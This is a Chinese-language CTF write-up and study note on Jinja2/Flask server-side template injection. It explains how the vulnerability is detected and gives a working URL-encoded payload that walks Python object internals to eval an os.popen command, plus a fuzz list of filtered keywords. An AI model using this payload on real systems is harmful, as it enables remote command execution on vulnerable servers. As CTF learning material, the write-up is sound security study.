





# 2024/12/16 - 2024/12/24 - SSTI 模板注入

周五打楚慧杯做到的SSTI题，借此机会系统学习一下SSTI攻击
（虽然比赛很烂，但是题目有一定启发性；指做了4个小时

---

## SSTI 模板注入

指的是由于服务端的模板未对用户输入进行审查或给予过多的操作空间，导致模板会解析用户输入的内容并执行从而造成命令的注入。

最常见的框架就是 Python 的 Flask 模块中的 **Jinja2** 模板

### 漏洞扫描利用工具

先收集相关漏洞的自动化扫描利用工具：

* [tplmap](https://github.com/epinna/tplmap)
* [Fenjing](https://github.com/Marven11/Fenjing)

### Sal 的图集

> 原题来自2024年福建省大学生数据安全大赛-技能实践赛决赛

#### 解法1：Fenjing 工具自动破解（前提是知道是 SSTI 漏洞）
#### 解法2：手动破解

##### 1. 判断漏洞类型

先浏览页面，主页上找不到什么东西，但是搜索框点开后发现是一个空页面 `/search?name=` name 参数输入什么页面就直接返回什么，这个时候**初步判断是 SSTI 注入**。

##### 2. 测试注入

输入 `{{7 * 7}}` 页面返回结果 49，**基本可以确定是 jinja2 模板的 SSTI 注入**。

##### 3. 测试 payload

构造 payload

```py
name = {{''.__class__.__base__.__subclasses__()}}
```

成功回显一大串东西（用 python 简单模拟一下）



> 原理：在 python 中每个东西都是对象，都有对应的类。类定义了一堆诸如 `__class__` 的魔术方法，这些方法可以返回类相应的信息

这里通过 `__class__` 返回 str 类的类型
`__base__` 找到 str 类的基类
`__subclasses__()` 找到继承于这个基类的类
所以返回了这么多的类名

因为**我们的目标是执行系统命令**

所以找到能执行（系统）命令的函数或者包很重要：如 `sys` `os` `eval` `exec` 等

> 对于 python 的 module 而言，其作用域如图所示
> 
> 其中 builtin 即 python 的内建函数，具有很大强大的函数功能

我们需要绕过作用域，引用内建函数执行命令

通过寻找带有 `__init__` 的类从而找到 `__global__` 中的 builtin



如图所示，上面没有 init，下面有（有地址）

一般选择 `Catch_warnings` 这个类，我选择了 `Popen` 这个类：（手动缩进）

```python

    
        {{i.__init__.__globals__}}
    

```

由于我直接使用 `[]` 选取类时返回错误，怀疑对中括号进行了过滤，所以可以采用 Jinja2 模板的逻辑执行语句 `` 来构造，选取成功后也会输出一大段内容



这些就是全局（globals）中的所有内容

我们注意其中的 `__builtins__` 这一项，其内容是一个 dict，里面就是所有包含的内建函数：



同样的方法编写 payload 找到其中的 eval 函数即可进行调用

完整 payload 如下：（手动缩进）
（为了防止过滤，还使用了一些字符串拼接的办法）
url版：

```python
/search?name={%for%20i%20in%20%20%27%20%27.__class__.__base__.__subclasses__()%}{%if%20i.__name__%20==%20"Popen"%}%20{%%20for%20j%20in%20i.__init__.__globals__.values()%}{%if%20j.__class__%20==%20{}.__class__%}{%if%20%27eval%27%20in%20j.keys()%}{{j.eval("__im"+"port__("+"%27o%27+%27s%27).popen(%27ls%27).read()")}}%20
```

缩进版：

```python

    
        
            
                
                    {{j.eval("__im"+"port__("+"'o'+'s').popen('ls').read()")}}
                
            
        
    

```

最终成功执行命令

##### 4.一些其他东西

对于存在过滤的情况，过滤测试的 fuzz 如下：

```
}}, {{, ], [, ], \,  , +, _, ., x, g, request, print, args, values, input, globals, getitem, class, mro, base, session, add, chr, ord, redirect, url_for, popen, os, read, flag, config, builtins, get_flashed_messages, get, subclasses, form, cookies, headers
```

过滤绕过的方法在**参考资料 3**中有详细介绍

以上

---

## 参考资料

1. [Flask（Jinja2）服务端模板注入漏洞（SSTI）整理_jinja2模板注入漏洞-CSDN博客](https://blog.csdn.net/qq_46145027/article/details/130248535)

2. [Flask jinja2模板注入思路总结虽然这个漏洞已经出现很久了，不过偶尔还是能够看到。翻了翻好像只有python2的 - 掘金](https://juejin.cn/post/6844903566423883790)

3. [浅谈flask ssti 绕过原理 - 先知社区](https://xz.aliyun.com/t/8029?time__1311=n4%2BxnD0Dc764RDjx058bDyDI2e2KPDCzi00UeD)

4. [Python Flask中的SSTI和内存马 - 陈不二的猫](https://www.mewo.cc/archives/10/)